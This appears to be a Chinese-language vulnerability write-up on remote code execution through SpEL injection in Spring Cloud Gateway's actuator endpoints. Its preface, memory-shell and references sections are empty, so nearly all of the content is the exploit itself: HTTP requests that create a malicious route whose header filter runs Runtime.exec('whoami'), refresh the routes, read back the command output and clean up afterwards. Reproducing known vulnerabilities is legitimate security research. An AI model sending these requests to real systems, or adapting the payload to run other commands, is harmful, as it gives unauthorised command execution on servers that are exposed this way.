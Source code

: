 ## SpringBoot GatewayEL表达式漏洞分析

### 前言





----



### 漏洞复现

```http
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: 127.0.0.1:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/json
Content-Length: 368

{
      "id": "hacktest",
      "filters": [{
        "name": "AddResponseHeader",
        "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String(\"whoami\")).getInputStream()))}"}
        }],
      "uri": "http://example.com",
      "order": 0
}
```

![image-20220417165248745](https://img.sumsec.me//2022/03/48u5248ec48u5248ec.png)



---

```http
POST /actuator/gateway/refresh HTTP/1.1
Host: 127.0.0.1:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![image-20220417165229679](https://img.sumsec.me//2022/03/36u5236ec36u5236ec.png)



```http
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: 127.0.0.1:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded


```

![image-20220417170055653](https://img.sumsec.me//2022/03/55u055ec55u055ec.png)







```http
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: 127.0.0.1:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![image-20220417165316424](https://img.sumsec.me//2022/03/16u5316ec16u5316ec.png)

```http
POST /actuator/gateway/refresh HTTP/1.1
Host: 127.0.0.1:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```



![image-20220417165324564](https://img.sumsec.me//2022/03/24u5324ec24u5324ec.png)

----

内存马：









### 参考






